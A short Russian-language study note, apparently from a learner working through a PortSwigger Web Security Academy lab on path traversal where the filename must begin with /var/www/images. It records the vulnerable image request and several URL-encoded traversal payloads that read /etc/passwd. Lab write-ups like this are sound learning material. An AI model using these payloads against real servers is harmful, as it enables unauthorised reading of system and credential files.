

https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path

нужно достать /etc/passwd

---------

намек идет на то что нужно пробовать угадать то, в каких подпапках лежат файлы...

An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.

-----------
теперь все стало яснее, здесь просто путь сам по себе есть в виде
GET /image?filename=/var/www/images/  (через слэш / )

![[csdcwe24.png]]

заметил 
меняя имя картинки можно получать разные картинки
GET /image?filename=/var/www/images/21.jpg

запустил свой пейлоад

сработали варинты:

обычная кодировка URL
filename=/var/www/images/..%2F..%2F..%2F..%2Fetc%2Fpasswd = /../../../../etc/passwd

/..%2F..%2F..%2Fetc%2Fpasswd       = /../../../etc/passwd

/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd =  /../../../../../etc/passwd

то есть обычная обфускация URL кодированием сработала!

